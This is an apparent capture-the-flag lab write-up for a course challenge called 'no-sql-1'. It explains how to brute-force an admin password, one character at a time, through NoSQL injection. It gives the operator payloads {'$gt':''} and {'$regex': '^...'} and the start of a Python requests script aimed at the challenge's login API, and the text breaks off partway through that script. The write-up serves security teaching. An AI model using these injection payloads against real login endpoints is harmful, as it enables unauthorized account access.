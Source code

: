 ## 🟢 no-sql-1 (100)
- Goal
	- Brute-force admin's password (is the flag itself)
- Observations
	- Try to log-in > Inspect Request sent > inputs are wrapped in strings (by browser)
		- Because we want to use query operators for No-SQL, we want the inputs to be JSON objects instead
		- Method: Write a Python requests script to send payload as JSON
- Method
	- Make username: {"$gt":""}
		- Assume this will match the admin (the only) user
	- Make password: {"$regex": f"^{flag}{char}"}
		- flag is a string that we gradually build up by brute-forcing character by character
		- char is the character that we try to test
	- Beware Pitfall!
		- For regex characters we want to test, make sure to escape them first using backslash. Otherwise, they will be interpreted as a regex operator and the flag we brute-force will not have the correct characters, but just the regex wildcards like * or ?
- Python Script
```python
import requests
import string

alpha_num = list(string.ascii_lowercase + string.ascii_uppercase + string.digits + '_' + ' ' + '{' + '}' + '!' + string.punctuation + "")
# List of regex operators
regex_operators = [".", "^", "$", "*", "+", "?", "{", "}", "[", "]", "\\", "|", "(", ")"]
# Escape regex operators by prepending a backslash
escaped_alpha_num = []

for char in alpha_num:
	if char in regex_operators:
		escaped_alpha_num.append("\\" + char) # Escape the operator
		# two backslashes bc the first backslash is to escape the 2nd backslash
		# the 2nd backslash is responsible for escaping the char
	else:
		escaped_alpha_num.append(char) # Keep non-operators as they are

alpha_num = escaped_alpha_num

url = "http://offsec-chalbroker.osiris.cyber.nyu.edu:10000/api/login"
headers = {
"Accept-Language": "es-ES,es;q=0.9",
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36",
"Content-Type": "application/json",
"Accept": "*/*",
"Origin": "http://offsec-chalbroker.osiris.cyber.nyu.edu:10000",
"Referer": "http://offsec-chalbroker.osiris.cyber.nyu.edu:10000/",
"Accept-Encoding": "gzip, deflate, br",
"Connection": "keep-alive"
}
cookies = {
"CHALBROKER_USER_ID": "hw3172"
}


flag = ""

i = 0
char = alpha_num[i]
data = {
"username": {"$gt":""},
"password": {"$regex": f"^{char}"}
```